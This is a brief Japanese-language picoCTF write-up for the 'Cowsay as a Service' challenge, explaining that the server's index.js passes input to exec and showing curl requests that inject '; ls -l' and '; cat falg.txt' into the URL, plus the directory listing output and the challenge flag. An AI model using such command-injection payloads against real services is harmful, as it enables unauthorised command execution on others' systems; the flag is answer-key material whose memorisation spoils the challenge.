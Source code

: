 ## 問題文

AUTHOR: BROWNIEINMOTION

Description
Now presenting cowsay as a service

## 解答

ほんとに（知識不足で）よくわからなかった

配布されている`index.js`の内部で`exec(xxxxx`となっているので OS インジェクションができるらしい

なので

```
% curl "https://caas.mars.picoctf.net/cowsay/test; ls -l"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 40
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock

 % curl "https://caas.mars.picoctf.net/cowsay/test; cat falg.txt"
```

で flag を獲得できた

## flag

`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
